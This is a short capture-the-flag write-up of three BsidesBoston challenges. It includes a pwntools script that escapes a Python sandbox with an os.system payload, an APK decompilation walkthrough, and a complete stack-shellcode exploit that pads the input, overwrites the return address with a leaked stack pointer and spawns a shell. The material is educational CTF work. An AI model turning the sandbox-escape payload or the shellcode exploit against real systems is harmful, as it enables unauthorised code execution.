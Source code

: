 ## BsidesBoston: seashells, mobility, y2k

#### Played briefly on BsidesBoston last weekend, only played for about half an hour cause it was already late in my place when it started. Managed to solve only 3 challenges and somehow placed still placed 170th/1008. I registered using a different name, I'm gonna find a way to merge my scores to my main team somehow.
![](profile.png)
![](solved.png)

## warmup: y2k
> They told us the world was going to end in the year 2000! But it didn't... when will the world end?

#### Connecting to the instance and playing around with it, we came to deduce from the errors when providing invalid input that it was a python sandbox challenge. My plan was to get access to the os module and execute the system function from it.
```python
from pwn import *

p = remote('challenge.ctf.games', 31656)
print(p.recv())
p.sendline("__import__('os').system('cat flag.txt')")
print(p.recv())
```
#### Flag: `flag{we_are_saved_from_py2_k}`

## forensics: mobility
> Always wanted to calculate HMACs on your phone? Check out our new app! It supports 6 different algorithms.

#### We are given an apk which we need to reverse. I simply decompiled it using jadx-gui and examined the code in the MainActivity.java file. It was a program to calculate the HMAC of a given user input. We can see an interesting array with easily recognizable decimal values; the first four of which are the ascii values for 'flag'. Translating the contents of this array gets us the flag.
![](jadx.png)
#### Flag: `flag{classic_apk_decompile_shenanigans}`

## pwn: seashells
> Can you collect all the shells?

#### Baby pwn challenge for this ctf. Running it for the first time, we receive what looks like a stack address. We can verify this by checking the memory mappings with gdb. Since all protections are off, we can simply do the classic shellcode on stack then redirect the code flow to the given stack address (which is the address of the input we provide).
```python
from pwn import *

#:
p = process('./seashells')
#p = remote('challenge.ctf.games', 32134)
#db.attach(p, 'break *main')
leak = int(p.recvuntil('\n'), 16)
print('[*] stack leak: {}'.format(hex(leak)))

context.arch = 'amd64'
exploit = asm(shellcraft.sh())
exploit += '\x00' * (136 - len(exploit))
exploit += p64(leak)

print(p.recv())
p.sendline(exploit)
print(p.recv())
p.interactive()
```
![](seashells.png)
#### Flag: `flag{popping_shells_by_the_sea_shore}`